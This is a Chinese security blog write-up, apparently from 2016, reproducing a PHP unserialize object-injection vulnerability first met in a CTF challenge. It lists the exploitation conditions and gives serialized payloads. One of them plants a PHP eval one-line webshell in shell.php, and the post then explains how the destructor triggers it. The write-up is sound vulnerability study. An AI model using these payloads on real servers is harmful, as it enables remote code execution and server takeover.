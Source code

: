 ```yaml
---
title: PHP反序列化漏洞复现
tags:
  - Webshell
  - 代码执行
  - 漏洞复现
id: 241
categories:
  - 漏洞复现
date: 2016-09-16 16:12:33
---
```


## 导语

之前做华山杯的一道题里，在读取一个文件内容的时候，由于无法直接读取，看writeup里采用改了php反序列化的方式去读取了对应的文件，当时看有点懵逼，就去补了补PHP反序列化漏洞的原理和利用。
<!--more-->
## 正文

### 漏洞代码：

![](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/2016/09/00be3624e76e59c180034a9b97d6bc21.png)

### 漏洞利用条件：

1.程序中必须有一个PHP的魔术方法，比如_wakeup或者_destruct，我们需要利用这个方法，来进行攻击；

2.程序中含有PHP反序列化的函数unserialize()

3.exp需要能够保存在服务器中，如果目标服务器开启了allow_url_fopen，我们可以利用file_get_contents函数远程读取文件。

此时我们的代码中已经具备了以上的条件，可以进行PHP的对象注入了。

### exp内容：

O:3:"foo":2:{s:4:"file";s:9:"shell.php";s:4:"data";s:4:"aaaa";}

我们成功执行exp时，会在同一个目录下生成一个名叫shell.php的文件，并且文件内容为aaaa.

### 漏洞利用：

我们先通过上传之类的方法，将这个exp.txt上传到服务器当中，通过代码我们可以看出来，最后程序会将文件中的内容通过file_get_contents()函数读取出来，在程序执行完毕的时候，由于_destruct方法触发了代码执行。

![](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/2016/09/b45134209b152bb6b391675af4f0d156.png)

![](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/2016/09/6b7d6e308f929c8475228629bbaaac84.png)

在同级目录下生成了一个shell.php，且内容为aaaa

### 漏洞分析：

出现这个漏洞的时候我们可以利用它向目标服务器上写入shell：

O:3:"foo":2:{s:4:"file";s:9:"shell.php";s:4:"data";s:4:"&lt;?php @eval($_GET['BlBana'])?&gt;";}

通过这个exp，我们在shell.php写入的便是一句话。

需要注意的是，在字符串中，前面的数字代表的是后面字符串中字符的个数，如果数字与字符个数不匹配的话，就会报错，并向shell.php中写入初始内容“text”，我在不同版本的PHP中测试了这种错误。

![](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/2016/09/f92c2a37b60c3e1f6ddea06a651d126d.png)

![](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/2016/09/5603752e0c398cd84d258cb7d40d42dd.png)

在以上这两个版本中测试的时候，若我们序列化后的字符串不符合要求，就会抛出一个错误，并向shell.php中写入初始值。

![](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/2016/09/e26f3d61a7b5fb173797e0dd53a95417.png)

![](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/2016/09/4ae2cf91bd4b5c53eeef6d3a6d242888.png)

![](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/2016/09/aa2090e05aa0c0067950b7d0acf375dd.png)

但是在这个版本的PHP中，不会报错，但是依然是在shell.php中写入初始值。所以在利用的时候需要注意以上的内容。

* * *

现在分析一下漏洞的一些细节，这是因为我们通过GET传递了参数给session_filename这个参数中，导致之后的函数file_get_contents读取了exp.txt中的字符串，之后字符串被反序列化为了foo的数组对象，导致了代码执行。

![](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/2016/09/2747968806edf2c8fcc7e32d09b68783.png)

被反序列后产生的数组对象，相当于我们利用new foo（）生成了一个对象，但是，对象中的内容是以数组的形式存放的。

foo Object ( [file] =&gt; 2.txt [data] =&gt; text )

这是一个正常的数组对象，我们反序列后的字符串是

foo Object ( [file] =&gt; shell.php [data] =&gt; aaaa )

使得我们传入的恶意内容覆盖了原先数组初始值

O:3:"foo":2:{s:4:"file";s:9:"shell.php";s:4:"data";s:4:"aaaa";}
O:3:"foo":2:{s:4:"file";s:5:"2.txt";s:4:"data";s:4:"text";}

具体的序列化后的字符串如上所示。

我们成功的修改了变量$file和$data的值，这时候我们需要的是执行魔术方法_destruct()，这个方法的执行有以下集中方法：

1.当程序正常的执行完毕后，所有的对象被销毁了，析构函数被调用（<span style="color: #ff0000;">我们这里就是这种方法</span>）

<span style="color: #000000;">2.当对象没有指向时，对象被销毁</span>

$p = new foo();

$p = null;

此时析构函数执行

3.使用unset变量销毁指向对象的变量，<span style="color: #ff0000;">注意的是unset销毁的是指向对象的变量，而不是对象，只有指向同一个对象的所有变量都销毁的时候，析构函数才执行。</span>

也就是说当对象被销毁时，析构函数就会被调用。

## 总结

PHP的反序列化漏洞，可以导致远程代码的执行，漏洞产生后的后果也是十分严重的，因此在使用unserialize函数的时候应当注意漏洞形成所具备的条件，避免漏洞的产生。